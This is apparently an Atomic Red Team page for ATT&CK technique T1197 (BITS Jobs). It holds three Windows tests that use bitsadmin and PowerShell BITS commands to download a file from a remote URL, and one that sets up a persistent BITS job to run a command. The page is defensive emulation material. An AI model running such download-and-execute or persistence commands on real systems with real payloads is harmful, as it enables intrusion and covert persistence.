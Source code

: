 ```yaml
---
title: T1197 - BITS Jobs
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197/)

<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM). (Citation: Microsoft COM) (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.
<br/><br/>
The interface to create and manage BITS jobs is accessible through <a href="https://attack.mitre.org/techniques/T1086">PowerShell</a>  (Citation: Microsoft BITS) and the <a href="https://attack.mitre.org/software/S0190">BITSAdmin</a> tool. (Citation: Microsoft BITSAdmin)
<br/><br/>
Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)
<br/><br/>
BITS upload functionalities can also be used to perform <a href="https://attack.mitre.org/techniques/T1048">Exfiltration Over Alternative Protocol</a>. (Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)

- [Atomic Test #3 - Persist, Download, & Execute](#atomic-test-3---persist-download--execute)
<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download and execute a payload

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `command_prompt`!

```
bitsadmin.exe  /transfer /Download /priority Foreground #{remote_file} #{local_file}
```
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download and execute a payload leveraging PowerShell

**Supported Platforms:** Windows

#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `powershell` !

```
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```
<br/>

## Atomic Test #3 - Persist, Download, & Execute
This test simulates an adversary leveraging bitsadmin.exe to schedule a BITS transfer
and execute a payload in multiple steps. This job will remain in the BITS queue for 90 days by default if not removed.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bits_job_name | Name of BITS job | string | AtomicBITS|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | C:\Windows\Temp\bitsadmin_flag.ps1|
| command_path | Path of command to execute | path | C:\Windows\system32\notepad.exe|
| command_line | Command line to execute | string | C:\Windows\Temp\bitsadmin_flag.ps1|

<br/>
#### Run it with `command_prompt` !

```
bitsadmin.exe /create #{bits_job_name}
bitsadmin.exe /addfile #{bits_job_name} #{remote_file} #{local_file}
bitsadmin.exe /setnotifycmdline #{bits_job_name} #{command_path} #{command_line}
bitsadmin.exe /complete AtomicBITS
bitsadmin.exe /resume #{bits_job_name}
```
<br/>
